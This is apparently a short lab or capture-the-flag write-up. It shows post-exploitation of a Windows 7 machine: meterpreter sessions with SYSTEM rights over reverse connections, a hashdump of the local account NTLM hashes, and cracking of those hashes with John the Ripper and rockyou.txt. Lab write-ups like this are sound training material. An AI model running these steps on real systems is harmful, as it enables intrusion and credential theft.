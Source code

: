 # sessions -l

# sessions -i 2

[*] Starting interaction with 2...

meterpreter >

# 10.201.21.43

meterpreter > sysinfo
Computer : JON-PC
OS : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 0
Meterpreter : x64/windows

# sessions -> PC 사용자 이름 -> JON

Id Name Type Information Connection

---

1 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.8.136.212:4444 -> 10.201.21.43:49191 (10.201.21.43)
2 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.8.136.212:4433 -> 10.201.21.43:49192 (10.201.21.43)

# sessions -i 2

# meterpreter > hashdump

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

# kali -> john --format=NT --wordlist=rockyou.txt hash

# john --wordlist=rockyou.txt hash

Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (LM [DES 256/256 AVX2])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
(Jon)  
1g 0:00:00:00 DONE (2025-09-17 14:58) 25.00g/s 1228Kp/s 1228Kc/s 1228KC/s 123456..MEME13
Use the "--show --format=LM" options to display all of the cracked passwords reliably
Session completed.
